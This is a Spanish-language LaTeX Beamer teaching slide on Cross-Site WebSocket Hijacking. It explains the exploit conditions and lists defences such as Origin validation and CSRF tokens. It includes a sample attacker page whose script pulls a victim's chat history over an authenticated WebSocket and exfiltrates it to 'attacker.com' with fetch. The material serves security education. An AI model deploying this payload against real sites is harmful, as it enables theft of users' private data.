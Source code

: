 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{WebSockets --- Cross-Site WebSocket Hijacking (CSWSH)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es CSWSH?
  \item Equivalente a CSRF para WebSockets: el atacante abre una conexión WS
  \item en nombre de la víctima desde un dominio malicioso.
  \item Condiciones para que sea explotable
  \item 1. El handshake NO incluye un token CSRF
  \item 2. El servidor autentica usando solo las cookies de sesión
  \item 3. El servidor no valida el header Origin del handshake
  \item Payload CSWSH (página del atacante)
  \item \textbf{HTML en el servidor del atacante:}
  \item \textless{}script\textgreater{}
  \item var ws = new WebSocket('wss://victima.com/chat');
  \item ws.onopen = () =\textgreater{} ws.send(JSON.stringify(\{action:'get\_history'\}));
  \item ws.onmessage = e =\textgreater{} fetch('https://attacker.com/?d='+btoa(e.data));
  \item \textless{}/script\textgreater{}
  \item $\rightarrow$ La víctima visita la página del atacante
  \item $\rightarrow$ Su navegador abre una WS connection autenticada con las cookies de victima.com
  \item $\rightarrow$ El historial de chat se exfiltra al servidor del atacante
  \item Medidas de protección
  \item Validar el header Origin en el handshake del servidor WS
  \item Incluir un token CSRF como parámetro en la URL del handshake
  \item Usar tokens de sesión en el primer mensaje WS, no solo cookies
  \item portswigger.net/web-security/websockets/cross-site-websocket-hijacking
  \end{itemize}
\end{frame}
\end{document}
